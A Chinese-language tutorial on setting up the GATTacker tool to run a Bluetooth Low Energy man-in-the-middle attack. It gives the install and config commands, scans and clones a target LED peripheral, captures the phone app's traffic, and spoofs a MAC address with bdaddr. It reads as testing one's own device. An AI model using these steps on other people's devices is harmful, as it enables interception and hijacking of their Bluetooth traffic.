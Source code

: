 GATTacker安装与使用

1. 安装GATTacker

   GATTacker依赖：

   [noble](https://github.com/noble/noble)

   [bleno](https://github.com/noble/bleno)

   [nodejs](https://nodejs.org/zh-cn/download/releases/) = 8.11.X，注意高版本编译不通过

   安装流程：

   注意，你需要同时配置两台设备安装GATTacker

   1. Ubuntu下安装依赖

      ```
      sudo apt-get install bluetooth bluez libbluetooth-dev libudev-dev
      ```

   2. 安装noble，bleno

      ```shell
      npm install noble
      npm install bleno
      ```

   3. 安装GATTacker

      ```shell
      npm install gattacker
      ```

      

2. GATTacker配置

   两台设备配置好GATTacker后，GATTacker项目地址在node_module/gattacker/下

   先看一下你插入的ble usb dongle属性：

   ```shell
   sudo hciconfig
   ```

   结果大概是这样：

   ```shell
   $ hciconfig
   hci0:   Type: BR/EDR  Bus: USB
       BD Address: 00:02:72:14:27:0E  ACL MTU: 1021:8  SCO MTU: 64:1
       DOWN 
       RX bytes:2715 acl:1 sco:0 events:146 errors:0
       TX bytes:2500 acl:0 sco:0 commands:133 errors:0
   ```

   

   第一台设备（扫描设备）配置config.env文件：

   取消**NOBLE_HCI_DEVICE_ID**注释，修改为上面看到的hciX，X修改为上面看到的0。

   ```shell
   NOBLE_HCI_DEVICE_ID=0
   # "peripheral" device emulator
   # BLENO_HCI_DEVICE_ID=1
   # advertising interval - minimal = 20ms
   BLE_ADVERTISING_INTERVAL=20
   # ws-slave websocket address
   ```

   

   第二台设备（控制设备）同样先看一下ble usb dongle的属性，然后配置config.env文件：

   ```shell
   取消NOBLE_HCI_DEVICE_ID注释
   取消BLENO_HCI_DEVICE_ID注释
   WS_SLAVE修改127.0.0.1为扫描设备的IP
   ```

   将它们分配给hciX值。

3. GATTacker使用

   第一台设备（扫描设备）进入目录node_modules/gattacker

   ```shell
   sudo node ws-slave.js
   ```

   

   

   第二台设备（控制设备）进入目录node_modules/gattacker

   ```shell
   sudo node scan.js # 扫描环境中ble信息
   ```

   发现目标后，你就可以扫描目标的ble service信息

   ```shell
   sudo node scan.js MAC
   ```

   扫描结束后会在devices文件夹下面出现目标的广播信息与service信息，其中广播信息以.adv.json结尾。

   ```bash
   {
   	"id" : "f81d7860753a",
   	"dir": "0201050703f0ffe5ffe0ff",
   	"scanResponse": "0319000010094c4544424c452d3738363037355541",
   	"decodedNonEditable": {
   		"localName": "LEDBLE-7860753A",
   		"manufacturerDataHex": null,
   		"manufacturerDataAsscii": null,
   		"serviceUuids": [
   		"fff0", "ffe5", "ffe0"
   		]
   	}
   }
   ```

   service信息为.srv.json结尾保存，格式与上边看到的差不多。

   收集信息结束，下面开始攻击了：

   先关闭你的ble外设。然后第二台设备（控制设备）上运行

   ```bash
   sudo node advertise.js -a devices/ADV.adv.json -s devices/SRV.srv.json #ADV.adv.json为刚才扫到的广播信息，SRV.srv.json为刚才扫到的service信息
   ```

   这条命令会模拟出一个和你目标一摸一样的ble外设，等待出现：

   ```bash
   on open
   poweredOn
   Noble MAC address : d0:17:c2:39:b9:9e
   ```

   现在给你的外设上电，等待第二台设备（控制设备）出现

   ```bash
   Static - start advertising
   on -> advertisingStart: success
   setServices: success
   <<<<<<<<<<<<<<<<<<<<<<INITIALIZED>>>>>>>>>>>>>>>>>>>>>>
   ```

   打开手机app，扫描链接ble外设，连接成功后，第二台设备（控制设备）中会出现如下：

   ```bash
   Client connected: 75:3a:23:79:0e:ac
   >> subscribe: ffe0 -> ffe4
   >> Write: ffe5 -> ffe9 : ef0177 ( w) f81d7860753a:ffe0 confirmed subscription state: ffe4
   << Notify: ffe0 -> ffe4 : 6615232a4110004b4b000a99 (f #*A KK   )
   >> Write: ffe5 -> ffe9 : 121a1b21 (   !)
   ```

   现在你可以使用app控制你的ble外设，看看中间有那些数据传递了

   

4. 问题：

   1. 成功率不高，一般会出现手机与ble外设连不上的情况，就算连上了，也可能出现数据不传递的情况，也就是控制失效，控制设备上抓不到任何包。

   2. 如果都成功，也可能出现报文漏掉的情况，我在测试过程中，发现报文漏掉的情况很多。

   3. 有些app是通过扫描外设的mac地址连接的，所以可能需要我们修改自己的ble dongle设备mac地址来尝试建立中间人链接：

      在helper/bdaddr下面通过make来编译adaddr，通过使用

      ```bash
      bdaddr -i hciX -r -t 目标ble设备mac # 克隆目标ble设备的mac
      ```

      然后按照上文中提到的方法继续测试就OK了。

   

   